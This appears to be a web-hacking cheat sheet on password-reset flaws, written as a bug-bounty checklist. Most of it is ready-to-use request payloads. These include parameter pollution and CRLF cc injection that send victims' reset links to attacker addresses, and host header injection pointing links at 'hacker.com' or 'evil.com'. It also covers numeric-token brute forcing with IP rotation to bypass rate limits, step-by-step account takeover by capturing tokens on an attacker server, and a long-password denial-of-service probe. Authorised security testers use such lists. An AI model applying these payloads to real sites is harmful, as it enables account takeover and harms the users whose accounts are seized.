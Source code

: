 ```yaml
---
title: Forgot Password Cheat Sheet
description: webvun,hacking
author: samidunimsara
date: 2020-08-08 11:33:00 +0800
categories: [hackingweb, web]
tags: [web]

---
```


# Password Reset Functionalities

- 1.) **Include your mail as a second parameter (you 
      might receive the reset link):**
    
    ```bash
    POST /reset
    email=victim@tld.xyz&email=hacker@tld.xyz
    ```
    
- 2) Brute force reset token if it is numeric. You can use IP Rotator on Burpsuite
    
    ```bash
    to bypass rate limit in case it's IP based :
    
    POST /reset
    email=victim@tld.xyz&code=$BRUTE$
    ```
    
- 3) Try to use your reset token on target's account
    
    ```bash
    POST /reset
    email=victim@tld.xyz&code=$YOUR-TOKEN$
    ```
    
- 4) Host header injection; change website.com to hacker.com (victim might receive the reset link with)
    
    ```bash
    POST /resetHost: hacker.com[ … … . ].
    ```
    
- Try to figure out how the tokens are generated. Exemples can be
    
    ```bash
    -Generated based on TimeStamp-
    -Generated based on the ID of the user
    -Generated based on the email of the user
    ```
    
- ) Try
    
    ```bash
    .user@email.com&bcc:attacker@email.com 
    
    .user@email.com,attacker@email.com.
    
    .victimspussy@ymail.com:attackersdick@ymail.com
    
    .{"email":["victim@gmail.com","attacker@gmail.com"]}
    
    .email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
    
    {"email":["victim12345@gmail.com","attacker12345@gmail.com"    ]}
    
    POST /reset
    email=victim@mail.com%0a%0dcc:hacker@mail.com
    
    no gmail.com No domain:email=victim   
    
    {"email": ["victim@xyz.tld","hacker@xyz.tld"]}
    
    Carbon copy:
    email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
    
    ```
    
- When requesting a new password reset link try to inject some html tags in the host header,
    
    ```bash
    Example:-Host: http://redacted.com?><a href=http://evil.com
    ```
    
- Also look into response body, sometimes passwd reset token leaks there.
- In JSON array
    
    ```bash
    {"email":["victim@mail.tld","atracker@mail.tld"]}
    ```
    
- reset password so that you get a reset OTP in your email
    - Don't use it.
    - Sign into your account and change your email address.
    - Once it's changed, try using the old OTP.
    - if the link still works then users can't rescue their account if their email is compromised.
- x-forwarded-host: {{7*7}} and X-Forwarded-For: yu will receive 49 in yur email if the application was infected ;)
- ATO
    
    
    ```bash
    1.Go to reset password
    2.Enter your Email and intercept request
    3.change Host+Referrer+originWith your server eg:burp collob..*
    4.Victim will receive  yourserver/token=$
    5.When He Click on Link you will got token
    
    ```
    
- Another ATO
    
    ```bash
    1.Generated reset password link,
    2.Gave password, and intercepted the request.
    3.Change my email with victim email and victim pass got changed
    ```
    
- Leakage of the password reset token in the referer header:
    
    ```bash
     1.In the password reset page after:
     2.Click on any social media handle or any 3rd party sites link & intercept the request
     3.If the reset token is leaked in refer header, Just report it! H1 report 751581 ``
    ```
    
    [https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/password_reset.md](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/password_reset.md)
    
- Password Reset Token Leakage
    
    ```bash
    
    Steps:    
    01.Send a password reset request 
    02.copy your reset page link from mail  and paste in another tab and make burp intercept on.
    03.after clinck link open facebook twiterr .random web site  
    https://www.youtube.com/watch?v=X3YxJFiTa6c&t=2s
    04. search reset link in puep historry
    05.if you find similiar token that is in reset link with other domain its vunarable
    ```
    
    - It was just simple one by response manipulation. Change the body from "false" to "true
- Host Header 💉
    
    ```bash
    1.Go to password reset funtion.
    2.Enter email and intercept the request and change like this    Host:http://target.com    Host:burp collbr    Host: http://attacker.com/www.target.com    Host: http://attacker.com&www.target.com
    4.if you found http://attacker.com in reset link.. Report it
    ```
    
- Password reset link not expiring
    - After reset password using reset link try another time using same link
- Dos via enter long password
    
    ```bash
    1.enter long password 1000 caracter if response 500 its dos
    ```
  
